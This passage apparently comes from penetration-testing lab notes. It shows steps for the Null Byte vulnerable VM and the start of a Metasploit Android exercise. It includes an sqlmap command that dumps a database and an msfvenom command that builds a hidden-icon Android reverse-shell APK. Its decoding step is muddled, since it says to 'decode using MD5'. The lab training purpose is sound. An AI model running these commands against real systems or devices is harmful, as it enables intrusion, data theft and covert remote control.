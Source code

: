 ### Steps:
1. Start the Null Byte vulnerable machine.

2. Perform a network scan using Nmap:
    - Use the following command: `nmap -A </24>` to scan the network for vulnerable hosts.

3. Download an image from a web browser:
    - Navigate to a website hosting images and download an image file.

4. Use Exiftool to analyze the image:
    - Run `exiftool <image>` to extract metadata from the downloaded image. Look for comments.

5. Exploit SQL injection vulnerability using SQLMap:
    - Execute SQLMap with the following command:
      ```
      sqlmap -u http://192.168.40.129/kzmb5nVYJw/420search.php?usrtosearch=1 -D seth --dump-all --batch
      ```

6. Decode the retrieved data:
    - Locate the table named 'pass' and decode the value found in it.
    - Decode the value using Base64.
    - Further decode the value using MD5.

7. Find the password:
    - After decoding, the password should be revealed.

8. Utilize the Null Byte exploit:
    - Use the following credentials:
      - Username: rq;ses
      - Password: o;egq

## Exploit 5: Metasploit Android

This exploit demonstrates the use of Metasploit to deploy a payload on an Android device.

### Steps:
1. Generate the payload using msfvenom:
    ```bash
    msfvenom -p android/meterpreter/reverse_tcp AndroidhideAppIcon=true LHOST=<ip addr> LPORT=<port number> -f raw -o androidpayload.apk
    ```

2. Install Apache web server:
    ```bash
    sudo apt install apache2
    ```

3. Start, check status, and enable Apache:
    ```bash
    systemctl start apache2
    systemctl status apache2
    systemctl enable apache2
    ```
